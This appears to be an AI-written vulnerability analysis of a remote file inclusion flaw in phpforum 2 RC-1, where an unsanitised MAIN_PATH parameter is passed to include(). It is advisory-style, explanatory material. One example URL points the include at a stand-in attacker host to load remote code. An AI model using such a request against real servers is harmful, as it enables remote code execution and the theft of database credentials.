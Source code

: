 Based on the provided content, here's an analysis of the vulnerability:

**Root Cause of Vulnerability:**
The vulnerability stems from the insecure use of the `include()` function in `mainfile.php` within phpforum 2 RC-1. The script uses a user-controlled variable `$MAIN_PATH` to specify the path to the included `config.php` file.

**Weaknesses/Vulnerabilities Present:**
- **Arbitrary File Inclusion:** The primary vulnerability is the ability to control the `$MAIN_PATH` variable, which is directly used in an `include` statement. This allows an attacker to specify a path, potentially pointing to a malicious file hosted on an external server.
- **Lack of Input Sanitization:** The code does not sanitize or validate the `$MAIN_PATH` variable, leading to the possibility of including arbitrary files.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a malicious `config.php` file (or any other PHP file) from a remote server, the attacker can execute arbitrary code on the vulnerable server.
- **Information Disclosure:** An attacker can use this vulnerability to include the original configuration file (`config.inc.php`) and potentially obtain sensitive information such as database credentials (username and password).

**Attack Vectors:**
- **HTTP GET Parameter:** The `$MAIN_PATH` variable is passed as a GET parameter in the URL.  For example: `http://www.victim.com/forum/mainfile.php?MAIN_PATH=http://www.attack.com`.

**Required Attacker Capabilities/Position:**
- **Network Connectivity:** The attacker needs to be able to send requests to the vulnerable server and have a server to host the malicious file.
- **Basic HTTP Knowledge:** An understanding of how to construct HTTP requests with GET parameters is necessary.
- **Publicly Accessible Target:** The vulnerable application must be accessible on the network to the attacker.